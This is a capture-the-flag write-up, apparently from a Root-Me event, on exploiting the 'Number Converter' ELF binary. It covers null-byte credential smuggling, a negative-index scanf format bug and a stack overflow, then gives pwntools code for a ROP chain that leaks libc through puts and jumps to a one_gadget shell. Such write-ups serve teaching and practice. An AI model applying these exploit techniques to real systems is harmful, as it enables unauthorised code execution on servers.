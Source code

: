 # Number Converter

![description](./images/description.png)

File: [number-converter.zip](./number-converter.zip)

## Reconnaissance

We are given a zip file that contains an ELF executable running on a server and the libc used by this executable. With no more information, we can assume the goal here is to get a shell / read the flag on the server by exploiting it.

```
number-converter:  ELF 64-bit LSB executable, x86-64, [...] not stripped
```

The executable is not stripped, this is helpful to reverse engineer it as we can quickly identify relevant symbols.

When running `number-converter`, we are asked for credentials to access the actual number converter. No buffer overflow or obvious issue here.

```
$ ./number-converter 
-= Number converter v0.2 =-
login: admin  
password: password?
Invalid credentials!
```

Before taking a closer look, let's check the protections using `checksec`:

![checksec](./images/checksec.png)

`No canary found` may hint towards a buffer overflow, but `NX enabled` means we will probably need to use ROP if we do exploit one. `No PIE` will also makes things easier by having constant addresses for the program memory.

## "Hacking" the credentials

Decompiling the `check_login` function reveals that the executable makes absolutely no attempt at hiding the credentials.

```C
bool check_login(void)
{
  int cmp;
  cmp = strcmp(username,"admin");
  if ((cmp == 0) && (cmp = strcmp(password,"sup3rus3r"), cmp == 0)) {
    return true;
  }
  return false;
}
```

This looks a bit too easy and pointless... But we will come back to this later.

## The number converter

Once logged in, we have access to a basic number conversion service. We first need to make a choice for the base to convert from and then input the number to convert. We can also choose to exit.

```
-= Number converter v0.2 =-
login: admin
password: sup3rus3r
Login success !

Input type: 
1. Decimal
2. Hexadecimal
3. Octal
0. Exit
> 2
Input number: 20
Converted: 32
```

We can't input a choice larger than 3 and there is no ovious buffer overflow here either.

First, the `read_int` function reads our choice with a secure `fgets` call and converts it to an integer using `atoi`.

```C
int read_int(void)
{
  char[16] buffer;
  fgets(&buffer,15,stdin);
  return atoi(&buffer);
}
```

Then, the input number is read with a secure `scanf` call which uses a different format string depending on our choice.

```C
scanf(formatters[choice-1],&converted);
```

 The three formatters are statically initialized in a `setup` function at the start of execution. Three pointers to the strings are stored in an array in the program memory in `formatters`.

```
gdb-peda$ p &formatters
$1 = (<data variable, no debug info> *) 0x4040e0 <formatters>

gdb-peda$ x/3s (void*)formatters 
0x402004:       "%lu"
0x402008:       "%lx"
0x40200c:       "%lo"
```

## Bad choices

The first issue with this program is located in the choice input. The program correctly checks that our choice is less than four **but fails to check for a negative choice**. Indeed, the `atoi` conversion returns a signed integer.

For example, if our choice is `-1`, the program will try to get the format string for scanf pointed at `formatter[-2]` (= the pointer at memory location `0x4040e0-16=0x4040d0`).

In most cases the `scanf` call will fail if the value there is null, or even crash if it's not null when it tries to dereference it.

```
Input type: 
1. Decimal
2. Hexadecimal
3. Octal
0. Exit
> -1010
atoi(0x7ffe71d79b20, 0x7f46dbda9a43, 0xfbad208b, 0x7ffe71d79b20)                                                       = -1010
Input number: __isoc99_scanf(20, 0x7ffe71d79b60, 0x7ffe71d79b60, 0 <no return ...>
--- SIGSEGV (Segmentation fault) ---
```

How can we exploit this? Well, if we somehow manage to find or store a pointer to a string `"%s"` somewhere before the formatters array, we will be able to use it and effectively call `scanf("%s", &converted)` which is **very not secure**.

## Smuggling %s

What can we use to write the string `"%s"` and a pointer to `"%s"` before the formatters? The `scanf` call will be of no use because it stores its result on the stack. Same issue with the `read_int` function.

The only remaining possibility is the login and password inputs. Lucky for us, they are stored in memory just before the `formatters` array! All we have to do is store our string and pointer in one of these fields and we can trigger a `scanf("%s", &converted)`!

But wait... This will fail the authentication check and won't even let us access the number converter... unless...?

Let's review how our credentials are read and checked.

```C
fgets(username,31,stdin);
fgets(password,31,stdin);
[...]
cmp = strcmp(username,"admin");
```

See the issue here? `fgets` allows us to input null bytes but the string comparison is made with `strcmp` which stops comparing when encountering a null byte.

This means **we can input anything after the login or password followed by a null byte** and still pass the login check.

```bash
$ echo -e "admin\x00smuggling\nsup3rus3r\x00somedata" | ./number-converter
-= Number converter v0.2 =-
login: password: Login success !
```

## Putting things together

We now have a clear way to stack overflow.

First we smuggle the string `"%s"` and a pointer to this string in our username input during the login phase. We can do this because PIE is not enabled so the username address is constant.

```python
e = ELF("./number-converter")
username_addr = e.symbols[b"username"]

username = b"admin" + b"\x00" * 3 # pass username check
username += b"%s" + b"\x00" * 6 # the format string to use in the scanf call. %s to exploit buffer overflow
username += p64(username_addr + 8) # pointer to the format string input
password = b"sup3rus3r"
```

Then we use a carefully chosen negative number (hint: it's -5) to use our `"%s"` string as the formatter for `scanf` to write arbitrary data on the stack (stack overflow).

```python
fake_choice = "-5" # leads to our pointer to "%s"
p.recvuntil("> ")
p.sendline(fake_choice)
p.recvuntil("Input number:")
p.sendline("A" * 100)
```

Finally, we use the choice 0 which exits main with a `ret` instruction and... Success!

![overflow](./images/overflow.png)

## From stack overflow to shell

We can now use the usual methods to get a shell from our stack overflow.

Since Partial RELRO is enabled, libc base is randomized. We can first leak the puts address and substract the puts offset to get the base. This is done with a simple **ROP chain** that prints the value of `puts` in the Global Offset Table, then returns to start of `main` for a second stage.

```python
puts_got = e.got[b"puts"]
puts_addr = e.symbols[b"puts"]
main_addr = e.symbols[b"main"]
pop_rdi = 0x401583 # pop rdi; ret
ropchain = p64(pop_rdi) + p64(puts_got) + p64(puts_addr) + p64(main_addr)
```

After returning to main, we exploit a second stack overflow in the same way and this time return to a one_gadget in libc that provides us a shell.

```python
libc = ELF("./libc-number-converter.so.6")
puts_offset = libc.symbols[b"puts"]
#0xe3b31 execve("/bin/sh", r15, rdx)
#constraints:
#  [r15] == NULL || r15 == NULL
#  [rdx] == NULL || rdx == NULL
one_gadget_offset = 0xe3b31
jump_address = puts_leak - puts_offset + one_gadget_offset
```

Finally we get the flag for this well thought-out challenge tagged "easy" :)

```
$ python exploit.py 
[+] Opening connection to ctf10k.root-me.org on port 5006: Done
puts leak 0x7fdc73457420
[*] Switching to interactive mode
$ cat flag.txt
RM{sc4nf_f0rm4t_str1ng_101}
```

You can find the source code for the full exploit [here](./exploit.py).
